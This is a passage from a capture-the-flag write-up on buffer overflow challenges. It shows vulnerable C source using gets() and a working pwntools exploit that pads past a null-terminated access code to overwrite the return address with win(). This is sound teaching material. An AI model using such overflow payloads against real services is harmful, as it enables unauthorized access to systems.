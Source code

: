 So, we can modify `isAuthenticated` by overflowing the buffer (by entering > 48 characters[^bb0]), which will then print out the flag and cause a segmentation fault.

[^bb0]: *Post-CTF*: I tested it out after, and the exact number was 64 characters. 64-48 = 16. I don't actually know why 64. Something about stack frames?

**Flag**: `MetaCTF{just_a_little_auth_bypass}`
## Baffling Buffer 1
> After pointing out the initial issue, the developers issued a new update on the login service and restarted it at host1.metaproblems.com 5151. Looking at the binary and source code, you discovered that this code is still vulnerable.

Looking at the source code we have:
```C
void win() {
	system("/bin/cat flag.txt");
	exit(0);
}

void vuln() {
	char buf[48];
	puts("Enter the access code: ");
	gets(buf);

	if(strcmp(buf, "Sup3rs3cr3tC0de") == 0) {
		puts("Access granted!");
	}
	else {
		puts("Invalid auth.");
		exit(-1);
	}
}
```

We want to get to the `win()` function, so we want to overflow the `buf` array again. However, just entering long garbage won't work - `strcmp` will compare it to the `Sup3rs3cr3tC0d3` and then exit immediately.

`strcmp` compares strings until the `\0` character - the null terminator in C-strings. We can take advantage of this by *beginning* our string with the `Sup3rs3cr3tC0d3`, adding a null terminator, and then flooding the rest of the buffer with garbage.[^bb1]

[^bb1]: I added the `win` address at the end, but I actually don't know whether this is necessary. I also don't know why it's 56 chars specifically!

Here's how I did that using `pwntools`:
```python
from pwn import *

elf = ELF("./bb1")

p = remote("host1.metaproblems.com", 5151)
# p = process("./bb1")
payload = b"Sup3rs3cr3tC0de\0" + b"A"*40 + p64(elf.sym["win"])

p.recv()
p.sendline(payload)

p.interactive()
```


[^zip]: Which didn't seem sketchy at **all**.
[^pow]: When we bit-shift 1 to the left by `i`, we pad the right with `i` 0s. For example, `1 << 5` would create the binary string `100000`, which is the number 2^5 or 32.